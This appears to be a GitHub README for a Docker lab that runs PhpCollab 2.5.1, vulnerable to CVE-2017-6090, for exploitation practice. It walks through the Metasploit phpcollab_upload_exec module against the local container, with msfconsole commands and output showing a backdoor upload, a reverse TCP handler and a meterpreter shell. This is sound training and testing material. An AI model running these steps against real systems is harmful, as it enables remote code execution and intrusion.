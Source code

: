 # exploit-CVE-2017-6090

Containerized exploitable PhpCollab

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/jlk](https://github.com/jlk) |
| Url      | [https://github.com/jlk/exploit-CVE-2017-6090](https://github.com/jlk/exploit-CVE-2017-6090)                                               |
| Stars    | 1                                                          |
| License  | Apache License 2.0                                                        |

<details>

<summary>Topic / Tags</summary>

* containers* php* security* whoot

</details>

## Readme

# Containerized exploitable CVE-2017-6090
[![Docker Pulls](https://img.shields.io/docker/pulls/jlkinsel/exploit-cve-2017-6090.svg?style=plastic)](https://hub.docker.com/r/jlkinsel/exploit-cve-2017-6090/)
![License](https://img.shields.io/badge/License-Apache-blue.svg?style=plastic)

This projects builds a container running PhpCollab 2.5.1, containing
a remote code execution vulnerability as detailed in CVE-2017-6090.
In addition, there is a docker-compse file to start that container
and mysql to show the demo, and instructions to exploit are below.


## Build
`docker build -t ` **containername** `.` or use the image jlkinsel/exploit-cve-2017-6090

## Run & Configure
The easiest way to get this thing up is to use the enclosed
*docker-compose.yml* file. If I get bored at some point - or folks
show interest - I'll create a kubernetes deployment or helm chart.

So, to get things going:

```
docker-compose up
```

So far, so good! Now, phpcollab needs to be configured to use the
database, and given a default admin password. I (briefly) tried
automating this, but...well...you look like you know how to use a
browser...

* Browse to http://localhost:8088
* Scroll to bottom of GPL, click the "Offline installation" box and then click **Step 2**
* Enter the following data in fields, then click **Save**:

| Field | value |
|-------|-------|
| Database server | mysql |
| Database login | phpcollab |
| Database password | changeme |
| Database name | phpcollab |
| Notifications | False |
| Admin password | changeme (or whatever you want |

Finally, you can log in and poke around, but not necessary for the exploit.

### Note
Notice this docker composition isn't doing anything fancy for
storage. If you wish to persist the mysql database, you'll have to
add a volume definition to the mysql service definition in
`docker-compose.yml`. See examples on the [mariadb docker hub
page](https://hub.docker.com/_/mariadb/)

## Exploit
First - follow *Run & Configure* above to get the application up and running.

I didn't add an exploit in this project, because, well,
[Metasploit](https://www.rapid7.com/db/modules/exploit/unix/webapp/phpcollab_upload_exec).

New to MSF? Here's a quick overview of exploiting the container we just started:
```
docker run -ti --network exploitcve20176090_default remnux/metasploit
```
This takes a few minutes to spin things up. the *remnux/metasploit*
docker hub page covers using volumes so this won't take as long in
the future. But we're about now!

Once you get a shell prompt, let's continue:
```
# msfconsole
msf5 > use exploit/unix/webapp/phpcollab_upload_exec
msf5 exploit(unix/webapp/phpcollab_upload_exec) > set TARGET 0
TARGET => 0
msf5 exploit(unix/webapp/phpcollab_upload_exec) > set RHOST phpcollab
RHOST => phpcollab
msf5 exploit(unix/webapp/phpcollab_upload_exec) > set RPORT 80
RPORT => 80
msf5 exploit(unix/webapp/phpcollab_upload_exec) > set TARGETURI /
TARGETURI => /
msf5 exploit(unix/webapp/phpcollab_upload_exec) > exploit

[*] Started reverse TCP handler on 172.31.0.4:4444
[*] Uploading backdoor file: 1.wGvfKLDyWHL.php
[+] Backdoor successfully created.
[*] Triggering the exploit...
[*] Sending stage (37543 bytes) to 172.31.0.2
[+] Deleted 1.wGvfKLDyWHL.php

meterpreter >
```
At this point, you're in, and the games can begin.

### Note
If the name of this directory is something other than
"exploit-CVE-2017-6090" you'll have to change the --network command
above.

Also - yes, we set the remote port to 80 in msfconsole, even through
it's 8088 externally. The metasploit container is on the same network
as the phpcollab container.




## Get the content

```
git clone https://github.com/jlk/exploit-CVE-2017-6090
cd exploit-CVE-2017-6090
```

{% embed url="https://github.com/jlk/exploit-CVE-2017-6090" %}

<figure><img src="https://avatars.githubusercontent.com/u/146853?v=4" alt=""><figcaption><p>jlk</p></figcaption></figure>
